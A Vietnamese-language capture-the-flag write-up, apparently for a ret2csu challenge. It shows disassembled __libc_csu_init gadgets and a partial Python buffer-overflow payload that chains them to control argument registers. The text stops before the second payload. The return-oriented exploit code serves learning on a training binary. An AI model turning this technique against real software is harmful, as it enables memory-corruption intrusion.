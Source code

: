 ```text-plain
[0x00400640]>
```

Ta có Gadget 1:

```text-plain
│      ┌──> 0x00400680      4c89fa         mov rdx, r15
│      ╎│   0x00400683      4c89f6         mov rsi, r14
│      ╎│   0x00400686      4489ef         mov edi, r13d
│      ╎│   0x00400689      41ff14dc       call qword [r12 + rbx*8]
```

Gadget 2

```text-plain
│           0x0040069a      5b             pop rbx
│           0x0040069b      5d             pop rbp
│           0x0040069c      415c           pop r12
│           0x0040069e      415d           pop r13
│           0x004006a0      415e           pop r14
│           0x004006a2      415f           pop r15
└           0x004006a4      c3             ret
```

Với payload1 ta sử dụng Gadget 2 để truyền giá trị arg vào r13, r14, r15, Gadget2 cũng control r12 để kết hợp với Gadget 1 gọi đến hàm chúng ta mong muốn đồng thời control edi, rsi, rdx

```text-x-python
payload1 = b'A'*40
payload1 += p64(libc_csu_int + 0x5a) # Gadget 1
payload1 += p64(0x0) # rbx
payload1 += p64(0x1) # rbp -> add rbx, 0x1;cmp rbp, rbx; jne __libc_csu_init -> rbx==rbp
payload1 += p64(init) # r12 -> call qword [r12 + rbx*8]
payload1 += p64(0xdeadbeefdeadbeef) # r13 -> edi
payload1 += p64(0xcafebabecafebabe) # r14 -> rsi
payload1 += p64(0xd00df00dd00df00d) # r15 -> rdx
```

Tới đây ta có rsi và rdx, riêng rdi ta cần phải thực hiện ở payload2, đó là lí do ta không gọi trực tiếp hàm ret2win với r12

Với r12 ta sử dụng hàm `__init__` vì  nó không cần đối số

Ta thấy sau `call qword [r12 + rbx*8]` thì rbx sẽ từ 0 thêm 1 và nếu rbp khác rbx  thì sẽ quay lại 0x400680. Đó là lí do tại payload1 ta sẽ cho rbp bằng 0x1 để thực hiện đoạn tiếp theo và đoạn này chứa Gadget 2

```text-plain
│      ┌──> 0x00400680      4c89fa         mov rdx, r15
│      ╎│   0x00400683      4c89f6         mov rsi, r14
│      ╎│   0x00400686      4489ef         mov edi, r13d
│      ╎│   0x00400689      41ff14dc       call qword [r12 + rbx*8]
│      ╎│   0x0040068d      4883c301       add rbx, 1
│      ╎│   0x00400691      4839dd         cmp rbp, rbx
│      └──< 0x00400694      75ea           jne 0x400680
```
